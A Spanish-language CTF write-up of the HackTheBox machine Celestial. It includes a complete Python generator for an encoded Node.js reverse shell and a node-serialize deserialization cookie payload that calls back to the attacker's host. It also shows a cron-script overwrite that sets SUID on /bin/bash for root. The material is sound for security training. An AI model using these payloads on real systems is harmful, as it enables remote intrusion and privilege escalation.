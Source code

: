 
---
layout: single
title: Celestial HTB - WriteUp
excerpt: WriteUp de la máquina Celestial de HTB.
date: 2023-03-08
classes: wide
header:
  teaser: /assets/images/Celestial/Celestial.png
  teaser_home_page: true
  icon: /assets/images/Celestial/Celestial.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - Web-Enumeration
  - Deserealization-Attak
  - Cron                                                                                                                                                                                   
---

En el día de hoy estaremos resolviendo la máquina Celestial de HackTheBox. Es una máquina Linux y su dirección IP es 10.10.10.85.

### Índice

1. [Enumeración Inicial](#enumeración-inicial)
2. [Web Enumeration](#web-enumeration)
3. [Deserealization Attack In NodeJS](#deserealization-attack-in-nodejs)
4. [Privesc](#privesc)

### Enumeración Inicial

Lo primero que haremos será una enumeración de los servicios expuestos que tiene la máquina. Para esa tarea usaremos nmap.

```bash
nmap -sC -sV -Pn -oN Extraction -p3000 10.10.10.85
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-08 13:08 CET
Nmap scan report for 10.10.10.85
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

Vemos que hay abierto un servidor web (HTTP), Si miramos la web podemos ver el siguiente contenido.

![](/assets/images/Celestial/img1.png)

### Web Enumeration

Si hacemos un curl visualizando las cabeceras, podemos ver la siguientes cabeceras.

```bash
curl -I http://10.10.10.85:3000/
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 08 Mar 2023 13:00:32 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Wed, 08 Mar 2023 12:45:32 GMT
Connection: keep-alive
```

Podemos ver la siguiente cookie:

>profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D

Si decodeamos la cookie (Esta encodeada en base64 y en formato URL) podemso ver el contenido de  esta.

```bash
echo "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==" | base64 -d | jq '.'
```

```json
{
  "username": "Dummy",
  "country": "Idk Probably Somewhere Dumb",
  "city": "Lametown",
  "num": "2"
}
```


Vamos a llevar la petición a Burpsuite, desde ahí vamos a modificar al petición para ver si hay algo mas tramitandose.

![](/assets/images/Celestial/img2.png)

### Deserealization Attack In NodeJS

Vamos a enviar el siguiente payload:

```json
{
  "username": Dummy",
  "country": "Idk Probably Somewhere Dumb",
  "city": "Lametown",
  "num": "2"
}
```

Vamos a provocar un error quitando una doble comilla, vamos a encodearlo en base64 y en caso de que tenga carácteres especiales ponerlo en formato URL.

```bash
echo "{\"username\":\"Dummy,\"country\":\"Idk Probably Somewhere Dumb\",\"city\":\"Lametown\",\"num\":\"2\"}" | base64 -w0
eyJ1c2VybmFtZSI6IkR1bW15LCJjb3VudHJ5IjoiSWRrIFByb2JhYmx5IFNvbWV3aGVyZSBEdW1iIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiMiJ9Cg==
```

Pondremos los "="  en formato url encode 

```json
eyJ1c2VybmFtZSI6IkR1bW15LCJjb3VudHJ5IjoiSWRrIFByb2JhYmx5IFNvbWV3aGVyZSBEdW1iIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiMiJ9Cg%3D%3D
```

Mandaremos el payload en la cookie y veremos lo que pasa.

![](/assets/images/Celestial/img3.png)

Vemos que se está usando la función unserialize, si investigamos un poco sobre esto podemos encontrar el siguiente post. https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ La verdad que lo explica bastante bien. Usaremos este script en python para crear el payload que nos establecerá una revshell.

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print "Usage: %s <LHOST> <LPORT>" % (sys.argv[0])
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print "[+] LHOST = %s" % (IP_ADDR)
print "[+] LPORT = %s" % (PORT)
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print "[+] Encoding"
PAYLOAD = charencode(NODEJS_REV_SHELL)
print "eval(String.fromCharCode(%s))" % (PAYLOAD)
```


Esto nos genarará el siguiente payload.


```bash
python2 node.py 10.10.16.6 443
[+] LHOST = 10.10.16.6
[+] LPORT = 443
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,54,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```


FInalmente nos quedaría el siguiente payload, ya preparado para codificarlo en base64.

```bash
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,54,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Lo encodeamos y nos ponemos ponemos a la escuha en nuestro listener. Una vez hecho eso, podemos eviar la petición.

![](/assets/images/Celestial/img4.png)

Si miramos nuestro listener, vemos lo siguiente:

```bash
nc -lvvp 443
listening on [any] 443 ...
10.10.10.85: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.85] 60238
Connected!
id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

### Privesc

Hacemos el tratamiento de la tty y empezamos a enumerar la máquina para escalar privilegios. Lo que tendremos que hacer es ver si hay alguna tarea cron ejecutandose. Para ello podemos usar la utilidad pspy.

```bash
2023/03/08 08:19:33 CMD: UID=0     PID=1      | /sbin/init splash 
2023/03/08 08:20:01 CMD: UID=0     PID=7884   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py 
2023/03/08 08:20:01 CMD: UID=0     PID=7883   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py 
2023/03/08 08:20:01 CMD: UID=0     PID=7882   | /usr/sbin/CRON -f 
2023/03/08 08:20:01 CMD: UID=0     PID=7885   | cp /root/script.py /home/sun/Documents/script.py 
2023/03/08 08:20:01 CMD: UID=0     PID=7886   | chown sun:sun /home/sun/Documents/script.py 
2023/03/08 08:20:01 CMD: UID=0     PID=7887   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py 
2023/03/08 08:20:01 CMD: UID=0     PID=7888   | date -R -r /home/sun/Documents/user.txt 
2023/03/08 08:20:01 CMD: UID=0     PID=7889   | /bin/sh -c python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```

Vemos que hay una tarea ejecutandose, en concreto se está ejecutando /home/sun/Documents/script.py vamos ver los permisos que tenemos sobre el archivo.

```bash
bash-4.3$ ls -la /home/sun/Documents/script.py 
-rw-rw-r-- 1 sun sun 29 Mar  8 04:31 /home/sun/Documents/script.py
```

Podemos cambiar el archivo, vamos a modificarlo para otorogarle privilegios SUID a la bash

```python
bash-4.3$ cat /home/sun/Documents/script.py 
import os
os.system('chmod +s /bin/bash')
```

Si esperamos a que el script se vuelva a ejecutar, podemos ver que la bash tiene privilegios SUID.

```bash
bash-4.3$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
```

Ahora podemos ejecutar la bash de forma privilegiada.

```bash
bash-4.3$ bash -p
bash-4.3# id
uid=1000(sun) gid=1000(sun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(sun)
bash-4.3# 
```

Ya hemos pwneado la máquina, espero que te haya servido!




